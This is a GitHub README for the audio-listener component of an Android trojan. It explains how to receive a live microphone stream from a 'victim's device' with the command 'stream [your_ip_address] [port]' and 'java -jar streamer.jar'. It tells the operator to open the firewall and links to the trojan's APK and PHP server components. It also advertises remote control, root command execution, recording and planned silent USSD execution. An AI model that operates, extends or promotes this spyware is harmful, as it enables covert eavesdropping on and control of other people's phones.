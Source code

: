 # Android Trojan (Built with Android SDK 22) source code
The main manual is here: https://github.com/androidtrojan1/android-trojan-service-
UPD. 11.02.2016 Version 1.2 released!

DESCRIPTION:



This is the source of executable .jar file that is used for recieving of sound stream from the mic of the victim's device in real time.
First you need to execute the command "stream [your_ip_address] [your_desired_listening_port]" and if it started it will show you
the neccessary buffer size and port that you should pass as argument.

Example of usage: 
java -jar streamer.jar bufsize port
for instance (java - jar streamer.jar 8192 31337)

IMPORTANT!!!
Dont forget to set up the firewall rule or just completely disable it for a while (the UDP port will be used for listening)
And you will also need to set up IP forwarding if you are bihind a firewall. 

HERE ARE LINKS TO THE OTHER COMPONENTS:

trojan service apk: https://github.com/androidtrojan1/android-trojan-service-

trojan starter apk : https://github.com/androidtrojan1/android-trojan-starter-

trojan php server part: https://github.com/androidtrojan1/android-trojan-php-server



Android trojan with abilities of remote control,root commands execution, recording and online sound streaming

Compatible with all Android from Gingerbread (API 10) up to Lollipop (API 22)





have fun!

Upd. 11.09.2016  New Update is coming. New features in the upcoming version:
*  Telegram real-time notifications about victim's actions
*  silent execution of ussd codes
*  more interesting root features ^^
